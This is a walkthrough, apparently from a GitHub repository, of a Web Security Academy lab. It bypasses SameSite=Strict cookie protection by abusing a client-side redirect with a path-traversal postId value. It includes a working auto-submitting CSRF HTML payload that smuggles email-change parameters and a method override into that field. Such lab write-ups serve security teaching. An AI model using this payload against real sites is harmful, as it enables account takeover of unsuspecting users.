







# Lab: SameSite Strict bypass via client-side redirect

> Lab Objective: perform a CSRF attack that changes the victim's email address.

- Login using provided credentials `wiener:peter`, and inspect the login's request and response.
  

- You'll notice that there is `SameSite=Strict` restriction on the cookies, therefore the browser won't sent the cookies through cross-site requests.

- Inspect the request and response When submitting a comment in any blog post.
  

- This page will come up, then after a few seconds you'll return to the same Blog Post page that you submitted the comment (keep in mind, with the same id.)
  

- In the previous page there is a JS function which redirects us after the comment submission to the Blog post with the same ID after 3 seconds, which is the value for `postId` url string parameter in `/post/comment/confirmation?postId=1`.

```js
redirectOnConfirmation = (blogPath) => {
  setTimeout(() => {
    const url = new URL(window.location);
    const postId = url.searchParams.get("postId");
    window.location = blogPath + "/" + postId;
  }, 3000);
};
```

- When the value for `postId` is equal to `1`, the path that we'll be redirected to will be `/post/8`.

- In order to make that function redirect us to `/my-account` page, change the `postId` value to `../../../my-account` , the url will be `/post/comment/confirmation?postId=../../../my-account`.
  
  

- You'll be redirected to `my-account` page.
  

- Here, I want to:

  - Make a request to `/post/comment/confirmation?postId=../../../my-account/change-email` in order to make a get request to `/my-account/change-email`
  - then submits the new email through a `POST` request.

- Use this payload:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form
      action="https://0af4006e0320d3f780bb032d00a60005.web-security-academy.net/post/comment/confirmation"
    >
      <input
        type="hidden"
        name="postId"
        value="../../../my-account/change-email?email=attacker@gmail.com&submit=1&_method=POST"
      />

      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- The lab is solved successfully
  
